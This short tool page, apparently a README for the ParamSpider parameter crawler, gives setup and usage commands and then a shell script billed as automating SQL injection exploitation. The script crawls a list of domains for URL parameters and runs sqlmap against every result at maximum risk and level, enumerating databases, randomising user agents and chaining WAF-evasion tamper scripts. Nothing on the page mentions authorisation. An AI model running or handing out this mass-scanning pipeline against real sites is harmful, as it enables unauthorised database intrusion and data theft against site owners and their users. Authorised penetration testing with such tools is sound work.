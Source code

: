 # ParamSpider

## Setup

```
$ git clone https://github.com/devanshbatham/ParamSpider && \
cd ParamSpider && pip3 install -r requirements.txt
```

## Usage

`$ paramspider -d website.com -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt -o urls.txt`

`$ paramspider -d website.com -o output.txt && for URL in output.txt; do (sqlmap -u "${URL}" --risk=3 --level=5 --random-agent --batch); done`

- **Automated script to exploit for parameters for sql injection vulnerabilities**

`$ cat sqli-automation.sh`

```sh
#!/bin/sh  
  
if [ $# -lt 1 ]  
then  
    echo "Usage: $0 urls.txt"  
    exit 1  
fi  
  
mkdir output-sqli  
  
while read -r domain  
do  
        ./paramspider.py -d $domain -e jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,js,htm,html \  
        -o output-sqli/"${domain}"-urls.txt  
done < $1  
  
sleep 3  
  
for file in $(ls output-sqli/*.txt)  
do  
        while read -r line  
        do  
                sqlmap -u $line --dbs --risk=3 --level=5 --random-agent --batch --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes  
        done < $file  
done
```

## References

- [ParamSpider](https://github.com/devanshbatham/ParamSpider)